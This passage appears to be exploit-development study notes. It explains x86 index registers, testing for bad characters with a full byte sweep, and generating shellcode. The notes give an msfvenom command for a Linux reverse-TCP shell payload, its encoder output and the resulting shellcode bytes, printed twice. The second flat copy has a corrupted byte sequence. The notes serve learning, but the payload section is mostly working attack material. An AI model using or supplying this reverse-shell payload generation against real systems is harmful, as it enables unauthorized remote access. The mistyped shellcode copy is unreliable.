 ### Index registers 
|32-bit|64-bit|Description|
|---|---|---|
|ESI|RSI|Source index is used pointer from source for string operations|
|EDI|RDI|Destination is used as a pointer to a destination for string operations|


### Bad Characters 
The goal is to inject all possible hex code into the system to see what get overwritten. 

```python
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
Inject the code into the process and see if it gets over written with /x00 and remove it from injection. 

bad character found \x00\x09\x0a\x20
Generate shellcode. 
```
msfvenom -p linux/x86/shell\_reverse\_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"   
Found 11 compatible encoders  
Attempting to encode payload with 1 iterations of x86/shikata\_ga\_nai  
x86/shikata\_ga\_nai succeeded with size 95 (iteration=0)  
x86/shikata\_ga\_nai chosen with final size 95  
Payload size: 95 bytes  
Final size of c file: 425 bytes  
unsigned char buf\[\] =    
"\xb8\x7c\xde\x75\x08\xd9\xc1\xd9\x74\x24\xf4\x5b\x29\xc9\xb1"  
"\x12\x31\x43\x12\x03\x43\x12\x83\xbf\xda\x97\xfd\x0e\x38\xa0"  
"\x1d\x23\xfd\x1c\x88\xc1\x88\x42\xfc\xa3\x47\x04\x6e\x72\xe8"  
"\x3a\x5c\x04\x41\x3c\xa7\x6c\x2d\xbe\x57\x6d\xb9\xbc\x57\x17"  
"\x50\x48\xb6\x57\xc4\x1a\x68\xc4\xba\x98\x03\x0b\x71\x1e\x41"  
"\xa3\xe4\x30\x15\x5b\x91\x61\xf6\xf9\x08\xf7\xeb\xaf\x99\x8e"  
"\x0d\xff\x15\x5c\x4d";

```

```
\xb8\x7c\xde\x75\x08\xd9\xc1\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\xbf\xda\x97\xfd\x0e\x38\xa0\x1d\x23\xfd\x1c\x88\xc1\x88\x42\xfc\xa3\x47\x04\x6e\x72\xe8\x3a\x5c\x04\x41\x3c\xa7\x6c\x2d\xbe\x57\x6d\xb9\xbc\x57\x17\x50\x48\xb6\x57\xc4\x1a\x68\c4\xba\x98\x03\x0b\x71\x1e\x41\xa3\xe4\x30\x15\x5b\x91\x61\xf6\xf9\x08\xf7\xeb\xaf\x99\x8e\x0d\xff\x15\x5c\x4d
```
